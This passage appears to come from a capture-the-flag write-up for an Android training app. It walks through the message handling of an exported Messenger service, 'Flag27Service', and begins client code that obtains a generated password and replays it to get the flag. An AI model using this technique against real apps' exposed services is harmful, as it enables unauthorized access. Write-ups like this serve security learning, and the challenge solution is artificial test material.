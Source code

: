 The service processes messages based on `message.what` (an integer representing the message type):
- case  = 1: an echo message is extracted and displayed via a toast
- case  = 3: string `password` & `echo` are extracted and compared to some values and if true we get our flag

```java
            if (message.obj == null) {
                Flag27Service.this.sendReply(message, "Error");
                return;
            }
            Message obtain = Message.obtain((Handler) null, message.what);
            Bundle bundle = new Bundle();
            String uuid = UUID.randomUUID().toString();
            this.password = uuid;
            bundle.putString("password", uuid);
            obtain.setData(bundle);
            try {
                message.replyTo.send(obtain);
                Flag27Service.this.sendReply(message, "Password");
            } catch (RemoteException e) {
                throw new RuntimeException(e);
            }
        }
    }
```

- case = 2 : if message object is not null it will generates a random UUID as a password then Sends the password back to the us via `message.replyTo`.

```java
    public void sendReply(Message message, String str) {
        try {
            Message obtain = Message.obtain((Handler) null, message.what);
            obtain.getData().putString("reply", str);
            message.replyTo.send(obtain);
        } catch (RemoteException e) {
            e.printStackTrace();
        }
    }

```

- Sends a reply back to the client using `message.replyTo`.
- The reply contains:
    - The same `what` value as the original message.
    - A `reply` string in the `Bundle`.


#### Solution

we need to create a connection to service and obtain the result with value `2` to get `password` then we will use it and send it along with `echo` and we will use `IncomingMessageHandle()` to send message content 

```java
private static Messenger serviceMessenger = null;  
private static String obtainedPassword;  
private static final Messenger clientMessegener = new Messenger(new services.IncomingMessageHandle());

private ServiceConnection serviceConnection2 = new ServiceConnection() {  
    @Override  
    public void onServiceConnected(ComponentName name, IBinder binder) {  
        serviceMessenger = new Messenger(binder);  
  
        Message msg = Message.obtain(null, 2);  
        msg.obj = new Bundle();  
        msg.replyTo = new Messenger(new IncomingMessageHandle());  
```